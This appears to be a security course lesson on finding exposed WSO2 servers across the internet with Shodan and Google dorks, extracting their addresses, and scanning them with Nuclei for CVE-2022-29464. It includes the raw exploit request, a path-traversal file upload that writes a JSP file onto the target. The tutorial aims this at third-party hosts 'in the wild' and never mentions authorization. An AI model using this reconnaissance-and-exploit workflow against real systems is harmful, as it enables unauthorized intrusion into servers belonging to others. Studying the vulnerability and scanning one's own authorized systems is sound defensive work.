 # Session 10

## How to find targets in the wild
### Find targets using shodan.io
As presented to you in another session, **[shodan.io](https://www.shodan.io/dashboard)** is a powerful search engine that can help you to find vulnerable targets on the internet, using different search queries. A search query can contain, for example, the name of the product like a simple ```weblogic``` which represents the name of the WebLogic server developed by Oracle.

<img src="./shodan_finding_1-2.png" width=800 height=400>

But we can also use more specific queries to find targets that interest us. You can also specify the port numbers inside the shodan query, using the ```port:``` filter. Knowing that [WSO2](https://wso2.com) the default HTTP and HTTPS ports of a WSO2 product are 9763 and 9443 respectively, we can try to use the ```WSO2 port:9443,9763``` query, you can find some [WSO2](https://wso2.com) targets across the internet.

<img src="./shodan_finding_2-2.png" width=800 height=400>

### Find targets using Google Dorks

Google Dorks involves using advanced operators in the Google search engine to locate specific errors of text within search results. Common cases of using Google Dorks are finding specific versions of vulnerable Web applications. Taking the previous example, we want to find some vulnerable versions of the WSO2 product after the release of the [CVE-2022-29464](https://www.trendmicro.com/en_us/research/22/e/patch-your-wso2-cve-2022-29464-exploited-to-install-linux-compatible-cobalt-strike-beacons-other-malware.html) so we will use Google Dorks, knowing the vulnerable endpoints of the vulnerable product.

```
inurl:"/carbon/admin/login.jsp"
inurl:"/authenticationendpoint/login.do"
inurl:"devportal/apis"
intitle:"API Publisher- Login"
intitle:"WSO2 Management Console"
```

<img src="./google_dorks.png" width=800 height=500>

## Use automation to find vulnerable targets with Nuclei

[Nuclei](https://github.com/projectdiscovery/nuclei) is an important open-source tool used to find vulnerable targets, based on flexible templates written in yaml, which offers to scan for multiple protocols (HTTP, TCP, DNS, ...). The templates can be found inside the [nuclei-templates](https://github.com/projectdiscovery/nuclei-templates/tree/master/cves) github page, sorted by the CVE release year. 

### Download shodan findings

#### Manually download data

Taking the same previous CVE-2022-29464 as example, we can use our shodan.io results to find if the targets found in the wild are vulnerable. First we need to download the results of the [shodan search used for the WSO2 targets](https://www.shodan.io/search?query=WSO2+port%3A9443%2C9763): just press the Download Results button and wait for the ```.json.gz``` file to be downloaded then unzip it using ```gzip -d <finding>.json.gz```

<img src="./shodan_download.png" width=800 height=150>

<img src="./shodan_download_2.png" width=800 height=150>

Our main interests of the ```<finding>.json.gz``` are the IP:PORT fields of every resulted information of the target; so the first approach is to extract these two fields, using [jq](https://stedolan.github.io/jq/) Linux utillitary - a sed for JSON data. Using the following command, we will have a list with an IP associated with a PORT.

```cat <extracted_finding>.json | jq -r '. | "\(.ip_str):\(.port)"' && sed -i -e 's/^/https:\/\//' targets.txt```

#### Download data using the API

Another approach is to use the shodan [API](https://help.shodan.io/guides/how-to-download-data-with-api), which helps you to download data. You can use the following commands to download the data:

```
shodan init <API_KEY>
shodan count WSO2 port:9443,9763
shodan download targets.json.gz WSO2 port:9443,9763 [--limit 1000]
gzip -d targets.json.gz
shodan parse targets.json --fields=ip_str,port > targets.txt
```

### Short CVE-2022-29464 explanation

We didn't talk at all about how this vulnerability works; the main idea is that the vulnerable WSO2 products allow unrestricted file upload which results in remote code execution. The main approach to succeed the vulnerability inside the WSO2 is to do a POST request which tries to upload a [web shell file](https://www.upguard.com/blog/what-are-web-shell-attacks) in JSP format on the target system.

This web shell enables the target to be remotely accessed by the attacker, which can run commands on the system. After this POST request is made, another GET request to the web shell path endpoint to check if the vulnerability was successfully exploited.

```yaml
requests:
  - raw:
      - |
        POST /fileupload/toolsAny HTTP/1.1
        Host: {{Hostname}}
        Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311
        Content-Length: 348
        -----------------------------250033711231076532771336998311
        Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/{{to_lower("{{randstr}}")}}.jsp";filename="test.jsp"
        Content-Type: application/octet-stream
        <% out.print("WSO2-RCE-CVE-2022-29464"); %>
        -----------------------------250033711231076532771336998311--
      - |
        GET /authenticationendpoint/{{to_lower("{{randstr}}")}}.jsp HTTP/1.1
        Host: {{Hostname}}
```

### Get nuclei in action

Now, having the targets inside the ```targets.txt``` file, we can start using nuclei. The first step is to install the tool from the [public github page](https://github.com/projectdiscovery/nuclei). After the installation is completed, as we said, we will choose to scan targets vulnerable to the CVE-2022-29464, so we will download the specific [```CVE-2022-29464.yaml```](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2022/CVE-2022-29464.yaml) file.

```nuclei -t CVE-2022-29464.yaml -l targets.txt```

We can see that our target was found vulnerable by nuclei.

<img src="./nuclei_run.png">
